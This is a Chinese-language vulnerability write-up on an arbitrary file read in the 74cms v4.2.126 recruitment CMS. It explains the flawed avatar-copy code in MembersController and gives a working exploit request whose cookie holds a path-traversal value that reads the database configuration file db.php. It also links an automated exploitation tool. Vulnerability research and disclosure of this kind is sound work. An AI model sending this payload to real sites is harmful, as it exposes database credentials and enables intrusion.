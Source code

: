 # 74cms v4.2.126-任意文件读取漏洞

## 0x00 前言

厂商：74cms

下载地址：http://www.74cms.com/download/index.html

关于版本：

新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

## 0x01 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)

2， 将下载好的包进行安装

3， 进入后台点击查看如果不是最新版的话，请点击升级！

4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决

5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php

6， 查找所有$_SERVER['HTTP_HOST'] 改为 http://baidu.com 即可

## 0x02 任意文件读取漏洞演示


```bash
url: http://74cms.test/index.php?m=Home&c=Members&a=register

post: 
reg_type=2&utype=2&org=bind&ucenter=bind
cookie: members_bind_info[temp_avatar]=../../../../Application/Common/Conf/db.php;members_bind_info[type]=qq;members_uc_info[password]=123456;members_uc_info[uid]=1;members_uc_info[username]=tttttt;
headers:
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
```

![](images/15889219266068.png)


![](images/15889219311472.png)


![](images/15889219355398.png)


![](images/15889219406827.png)


问题一：漏洞原理？

我下面会讲

问题二：你如何知道文件名称的？

我下面会讲

问题三：能不能写个简单的工具，自动利用此漏洞？

哦，好的，我下面会提供 : )

## 0x03 漏洞讲解

打开文件：`74cms\upload\Application\Home\Controller\MembersController.class.php`

函数：`_save_avatar($avatar, $uid)`

![](images/15889219652958.png)


如果不想看图片注释的话，我这里简单的说一下。

812行使用$avatar拼接形成$path

830行使用了$save_avatar+$savePicName; 生成了$filename

838行，使用了copy函数，把$path文件内容复制到了$filename中。

而 $avatar 和 $uid 都是我们刚好可以控制的变量

并且生成的文件名称是$uid+time() 然后md5 一下 拼接 .jpg

这个情况就很舒服了。写个小工具跑一下就好了，小工具会在结尾的时候放出来的。

好了，让我们继续看下去 : )

我们现在既然已经知道了_save_avatar 函数是有可能造成此漏洞的那么这时，我们就需要去找调用它的地方了。

经过一顿的搜索我们得出了两个地方是调用了他

地方一：register() 方法 会员注册方法

地方二：oauth_reg() 方法 第三方登录注册方法

论此漏洞的利用当然是register() 方法利用起来比较简单 因为 方法二 需要搭建第三方登录，我本地的话。。。还是算了，这里掩饰我使用 方法一

打开文件：`74cms\upload\Application\Home\Controller\MembersController.class.php`

函数：`register()`

![](images/15889219876913.png)


上面的马赛克是因为我写错了几个字，又不想重新写，所以我就把他擦掉了。

皮这一下，我就很开心

![](images/15889219971798.png)


这里我们讲解一下如果 post的变量ucenter为bind时，则通过cookie获取数组$uc_user

接着会进行数组合并而members_uc_info的cookie值是可控的，所以$data也是可控的。

![](images/15889220045256.png)


这里写着 当 `$data[utype] = 1` 会进行用户注册，而$data[utype]是我们可以控制的所以我们为2绕过此判断

这里我又跳过了前面一些无关紧要的内容，来到了最后的漏洞触发点。因为真的无关紧要,所以就跳过了

![](images/15889220204358.png)


## 0x04 漏洞利用小工具

https://github.com/ianxtianxt/74cms-upload

![](images/15889220375693.png)

![](images/15889220416986.png)


## 四、参考链接

https://www.yuque.com/pmiaowu/bfgkkh/dr895b